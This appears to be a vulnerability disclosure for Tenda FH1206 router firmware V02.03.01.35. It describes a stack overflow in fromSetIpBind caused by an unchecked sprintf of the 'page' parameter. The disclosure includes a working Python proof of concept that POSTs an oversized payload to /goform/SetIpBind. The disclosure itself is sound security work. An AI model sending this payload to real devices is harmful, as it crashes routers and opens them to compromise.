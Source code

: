 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSetIpBind` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v8, "arp_bind.asp?page=%s", v2);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.
![image](https://github.com/user-attachments/assets/6a78f974-4fb5-42ef-8b71-583d7556ba0d)


## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetIpBind"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)

